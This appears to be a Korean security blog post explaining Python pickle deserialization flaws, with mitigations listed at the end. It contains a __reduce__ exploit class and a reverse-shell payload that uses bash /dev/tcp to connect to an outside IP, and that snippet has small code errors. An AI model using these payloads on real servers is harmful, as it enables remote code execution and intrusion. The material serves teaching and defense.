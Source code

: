```yaml
---
layout: single
title: Deserialize_Vulnability for Python_Pickle
categories: Web-vuln
tag: [python, Pickle, Deserialize, Deserialize Vulnability]
toc: true
author_profile: false
---
```


# Deserialize란?

> 역 직렬화로 써 직렬화된 데이터 즉 바이트 스트림을 역연산 하는 과정을 말한다.

## Serialization?

> 계층 구조의 데이터를 바이트 스트림으로 변환하는 작업을 뜻하며,  객체를 저장 및 전송의 편리함 및 다른 플렛폼에서 사용하거나, 객체의 상태를 저장하기 위해 자주 사용된다.

# 직렬화는 어떤 기능을 하는 앤드포인트에서 사용될까?
1. 서버와 클라이언트 간의 데이터 전송
- 서버에서 객체를 JSON형식으로 직렬화하여 클라이언트에게 보내고 클라이언트는 해당 JSON을 파싱하여 객체로 변환하며, 보통 REST API, GraphQL 등 다양한 웹 API 통신에서 사용된다.
2. 데이터베이스 저장 및 조회
- ORM 사용시, 객체를 데이터베이스 레코드로 직렬화되고, 역직렬화가 이루어진다.
3. 캐싱
- 서버 측에서 데이터를 캐싱할 때 객체를 직렬화하여 캐시 스토리지에 저장하고, 캐시에서 데이터를 가져올 때 역직렬화 하여 객체로 변환하게됨
4. 파일 저장 및 읽기
- JSON, XML, YAML형식의 설정 파일을 읽고 쓸 때 객체의 직렬화, 역직렬화가 이루어진다.

# Deserialize에서의 취약점은 왜 발생 하는가?
> 사용자가 악의적인 데이터를 공격 서버와 동일한 방식으로 직렬화 하여 바이트 스트림을 생성후 서버에 제출하게 되면, 서버측에서는 이를 역직렬화 과정에서 제대로 검증하지 않고, 트리거 되기 떄문이다. 이 때 운영체제 명령어를 삽입하여 RCE 까지 연계될 수 있다.

# Deserialize for pickle
> Python에서 많이 사용되는 직렬화 및 역직렬화 라이브러리, 모듈인 Pickle 에서 Deserialize과정에서 취약점이 발생한다.
Pickle 라이브러리에서 직렬화 및 역직렬화를 하기 위해 내장된 함수는
1. pickle.dumps
2. pickle.dump
3. pickle.loads
4. picklid.load

위와 같이 존재한다. 직렬화를 하게되면, 아래와 같은 바이트 스트림으로 생성되는것을
확인할 수 있다.

```python
import pickle,base64

def pickled():
    data={"data":"test", "date":"2023"}
    serialized = pickle.dumps(data)
    print(serialized)

if __name__ == "__main__":
    pickled()

------------
b'\x80\x04\x95!\x00\x00\x00\x00\x00\x00\x00}\x94(\x8c\x04data\x94\x8c\x04test\x94\x8c\x04date\x94\x8c\x042023\x94u.'
```

하지만 일반적으로 data는 일부 문자가 인쇄 가능한 형식이 아니므로 base64로 인코딩 형식으로
변환하여 저장한다. 그 후 역직렬화를 통해 기존 데이터를 불러올 수도 있다.

```python
import pickle
import base64

def pickled():
    data={"data":"test", "date":"2023"}
    serialized = base64.b64encode(pickle.dumps(data))
    print(serialized)
    deserialized=pickle.loads(base64.b64decode(serialized))
    print(deserialized)

if __name__ == "__main__":
    pickled()
---------------------------------------------------------
b'gASVIQAAAAAAAAB9lCiMBGRhdGGUjAR0ZXN0lIwEZGF0ZZSMBDIwMjOUdS4='
{'data': 'test', 'date': '2023'}
```

# Vulnability for Pickle?
파이썬의 공식 문서의 pickle문서를 보면 아래와 같은 내용을 표시하고있다.<br>
<div class="notice">
  <h4><aside>
💡 **Warning** 
The `pickle` module **is not secure**. Only unpickle data you trust.<br>

**Warning**<br>

The `pickle` module **is not secure**. Only unpickle data you trust.<br>

It is possible to construct malicious pickle data which will **execute arbitrary code during unpickling**. Never unpickle data that could have come from an untrusted source, or that could have been tampered with.

Consider signing data with [`hmac`](https://docs.python.org/3/library/hmac.html#module-hmac) if you need to ensure that it has not been tampered with.<br>

Safer serialization formats such as [`json`](https://docs.python.org/3/library/json.html#module-json) may be more appropriate if you are processing <br>untrusted data. See [Comparison with json](https://docs.python.org/3/library/pickle.html#comparison-with-json).

</aside></h4>
</div>
> 경고 : Pickle 모듈이 안전하지 않습니다. 신뢰할 수 있는 데이터만 unpickle 하세요
> 역직렬화 중에 임의의 코드를 실행하는 악의적인 pickle데이터를 구성하는 것이 가능합니다. 신뢰할 수 없는 소스에서 왔거나, 변조되었을 수 있는 데이터를 절대로 unpickling 하지 마세요
그렇다. 즉 악의적인 사용자가 변조된 data를 직렬화 하여 서버로 보내면, 서버는 아무 검증 없이<br>
역직렬화 과정을 진행하는데 이 때 data에 임의의 시스템 명령어가 포함하고 있을경우 이를 실행시키고 실행 결과값을 반환한다.

# 공격 표면
요청 값에 대한 응답값을 확인해보면 직렬화 기능을 사용하는지에 대해 추측이 가능하다.
<br>
Python의 직렬화된 객체의 signature 는 gASV이다. Pickle를 통해 dumps 값을 유심히 봤다면 알 수 있듯 gASV로 시작한다. 이는 인코딩된 페이로드를 식별할 수 있는 방법이 될 수 있다.
<br>
16진수라면 c28004c29526000000000000이다.

## “__reduce__”
해당 “__reduce__” 메서드를 사용하여 공격자는 공격 코드를 제작한다.
해당 <u style="color=red; ">**메서드는 인수를 사용하지 않고, 문자열이나 가급적 튜플을 반환해야한다.**</u>
“__reduce__”메서드는 직렬화 된 계층 구조를 unpickling 할 때 객체를 재구성하는 것에 대해 tuple을 반환한다.

```python
import pickle, base64
from typing import Any

class exploit:
    def __reduce__(self):
        cmd = "ping -c 1 172.20.120.196"
        return (eval, (cmd,))
test={"name":exploit()}

if __name__ == '__main__':
    print(base64.b64encode(pickle.dumps(test)).decode('utf8'))
```

위 코드와 같이 eval,builtins.{함수}, exec, popen, os.system, subprosess.{함수} 와 같이 시스템
<br>
명령어를 포함하여 직렬화를 수행할 수 있다.

## Reverse Shell

ping 로 시스템 명령이 가능하며, 외부 서버와의 연결이 허용될 때
<br>
RCE로 이어질 수 있다.

```python
import base64. os, pickle


class exploit(object):
	def __reduce__(self):
		return (os.system, ("bash -c 'bash -i >& /dev/tcp/10.8.2.58/9001 0>&1'",))

def send_payload():
	payload = exploit()
	payload = base64.b64encode(pickle.dumps(payload)).b64decode('utf8')
	print(payload)

if __name__ == "__main__":
	send_payload()
```

# 대응방안
1. 사용자 입력값에 대한 데이터 유효성 검사 및 검증 
2. 화이트 리스트 기반의 입력값 검증 정책 적용
3. 권한이 낮은 환경에서 역직렬화된 코드를 격리 후 실행
4. pickle data가 저장되는 경우 파일 시스템 권한을 검토 후 데이터에 대한 액세스 보호 확인
5. pickle 과정에서 암호화 서명 사용

# Referance
- https://macrosec.tech/index.php/2021/06/29/exploiting-insecuredeserialization-bugs-found-in-the-wild-python-pickles/
- https://exploit-notes.hdks.org/exploit/web/framework/python/python-pickle-rce/